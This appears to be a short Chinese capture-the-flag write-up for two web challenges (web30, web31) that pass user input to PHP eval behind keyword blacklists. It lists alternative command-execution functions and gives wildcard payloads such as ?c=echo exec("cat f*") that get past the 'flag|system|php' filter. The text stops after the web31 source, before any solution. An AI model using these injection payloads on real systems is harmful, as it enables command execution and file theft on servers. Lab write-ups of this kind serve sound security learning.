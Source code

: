 
## web30   过滤system php

```php
 
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
过滤了关键词
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

system 可以使用

exec代替

还存在很多

```scss
system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
反引号 同shell_exec() 
```

php可以使用???代替

```bash
payload1: ?c=echo exec("cat f*");
payload2: ?c=echo exec("cat fla?????");
```

## web31 过滤    cat|sort|shell|\.

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
